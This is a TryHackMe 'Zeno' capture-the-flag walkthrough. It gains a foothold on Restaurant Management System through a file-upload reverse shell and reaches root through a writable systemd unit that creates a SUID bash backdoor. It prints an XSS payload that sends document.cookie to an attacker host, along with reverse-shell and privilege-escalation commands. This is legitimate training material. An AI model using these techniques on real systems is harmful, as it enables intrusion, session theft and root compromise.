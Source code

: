 # Try Hack Me - Zeno

**Categories:** Security, RCE, OSCP  
**Difficulty:** Medium  

Commands used in this guide use the exported variable $IP (`export IP=10.10.4.12`) in place of the target machine's IP address.

## 1: Enumeration - rustscan, nmap, gobuster

Having launched the box, we run rustscan following by an nmap version scan of the discovered ports (22, 12340) : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/zeno]
└─$ sudo nmap $IP -p22,12340 -sV -o nmap.version
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 17:01 EDT
Nmap scan report for 10.10.4.12
Host is up (0.100s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds
```

Google and searchsploit reveal no relevant vulnerabilities for the discovered versions. Navigating to the application on 12340 shows a stock 404 page, so we continue to a gobuster scan of the application using dirbuster's medium wordlist, revealing an `/rms/` route that hosts the "Pathfinder Hotel Restaurant Management System" : 

```html
<h1><center>Welcome To Pathfinder Hotel Restaurant Management System!</center></h1>
```

A Google search for "Restaurant Management System PHP vulnerabilities" reveals a number of vulnerabilities in the application, including [XSS session hijacking](https://www.sevenlayers.com/index.php/264-restaurant-management-system-1-0-xss-session-hijack), [arbitrary file upload](https://www.sevenlayers.com/index.php/265-restaurant-management-system-1-0-arbitrary-file-upload) and [remote code execution](https://www.exploit-db.com/exploits/47520).

## 2. Dead end - persistent XSS, user sign up

After reading the outline of the arbitrary file upload vulnerability discovered above, I had assumed that the RCE vulnerability required authentication - this was wrong, but it meant that I started by looking at the XSS vulnerability. The application allows users to create an account (`/rms/login-register.phg`) using their first name, last name and email address. After creating an account the new user receives a message from the administrator in the inbox section of the site (`/rms/inbox.php`) : 

```html
<CAPTION><h2>INBOX</h2></CAPTION>
<tr>
<th>From</th>
<th>Date Received</th>
<th>Time Received</th>
<th>Subject</th>
<th>Text</th>
</tr>

<tr><td>administrator</td><td>2020-12-08</td><td>03:16:13</td><td>sample</td><td width='350' align='left'>Sample Message</td></tr></table>
</div>
```

Here I assumed that we might be able to steal the administrators session cookie by creating a user with first name or last name of `<scr_pt>fetch('http:ATTACK-IP/?c='document.cookie)<//scr_pt>` - normally this wouldn't be much use in the context of a CTF, but the message received in the account inbox made me think that there may be some headless browser stuff going on to replicate an XSS vulnerability. This works for self-XSS when the user's first name is displayed at `/rms/member-index.php`, but administrator never calls home with their cookie.

## 3: Foothold - unauthenticated arbitrary file upload, RCE

After looking again at the RCE exploit script discovered in step 1, I realised that it hardcodes the session cookie required for file upload - unless there is kind of hardcoded superadmin session ID madness going on in the application, this is probably an indicator that this vulnerability does not require authentication. I didn't get on very well with the exploit script (it bugs due to formatting errors, it hardcodes a proxy address, it hardcodes a a load of unnecessary headers, etc.), so [I wrote a simplified version adapted for the box that uploads and activates a simple php reverse shell](./rms_exploit.py). Configure the LHOST, RHOST and RPORT variables at lines 11-13, start a listener on your LHOST port, and run the script - the reverse shell will connect to the listener, providing a session as the apache user : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.4.12] 35120
sh-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

## 4: Privesc, apache -> edward - credential discovery

Catting `/etc/passwd` shows one non-system / non-root user edward. Catting the `config.php` file at `/var/www/html/rms/` gives plaintext credentials for the application database, but the password is not good for either edward or root. Sqlmap has already shown us that there is no relevant data for privesc in the db, and running `ps -auxf` shows that the MySql process is not running as root (preventing any kind of [user defined function privesc](https://redteamnation.com/mysql-user-defined-functions/)). Running out of ideas, we download [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) from the attack machine and run it as the apache user, revealing :

* A writeable unit file at `/etc/systemd/system/zeno-monitoring.service`
* Plaintext credentials for a user "zeno" at `/etc/fstab`

The discovered credentials are also good for the edward user : 

```console
sh-4.2$ su edward
Password:
id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
```

The user flag is as `/home/edward/user.txt` - you can use the same credentials to connect over SSH for a fully functional shell.

## 5: Privesc, edward -> root - sudo -l, writeable unit file

Running `sudo -l` as edward reveals that they can be reboot the machine, giving us the final piece of the puzzle required to exploit the writable unit file discovered by Linpeas : 

```console
sudo -l
User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

We can change the ExecStart key of the unit file to perform any action as root - in this case, we'll create an SUID bash binary at `/home/edward/bd`, allowing us to start a root shell session :

```console
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /home/edward/bd /tmp/bd && chmod u+s /home/edward/bd"

[Install]
WantedBy=multi-user.target
```

We then use the edward user's sudo permissions to restart the box (`sudo /usr/sbin/reboot`), forcing the zeno-monitoring.service to run its ExecStart command. Reconnecting following the reboot, we find the backdoor binary at `/home/edward/bd` : 

```console
[edward@zeno ~]$ ls -l
total 948
-rwsr-xr-x. 1 root root   964536 Oct 24 02:52 bd
-rw-r-----. 1 root edward     38 Jul 26 21:13 user.txt
```

allowing us to start a root shell (don't forget the `-p` flag to preserve the SUID permissions when running bash) :

```console
[edward@zeno ~]$ ./bd -p
bd-4.2# whoami
root
```

The root flag is at `/root/root.txt`.
